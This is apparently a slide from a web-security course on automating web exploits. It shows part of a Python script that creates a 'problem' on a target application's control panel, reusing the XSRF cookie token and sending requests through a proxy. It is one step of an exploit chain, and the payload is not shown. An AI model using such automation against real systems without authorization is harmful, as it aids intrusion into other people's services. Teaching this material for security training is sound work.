

Web (cont.)
Basic Web : Automating Web Exploits
Next, we add a problem
...
def create_problem(target_url, s):
    problem_name = secrets.token_hex(10)
    data_json = {"name": problem_name,
            "description": "test_problem",
            "question":"data:application/pdf;base64,",
            "score":"123"}
    res = s.post(target_url + "/controlpanel/problems/creat",
            headers={"X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"])},
            json=data_json, proxies=PROXIES)
    res = res.json()
    if("The problem has been successfully added to the library" == res["description"]):
        print("[*] Created a test problem!")
        print("[*] Extracting the problem's ID..")
        ...
29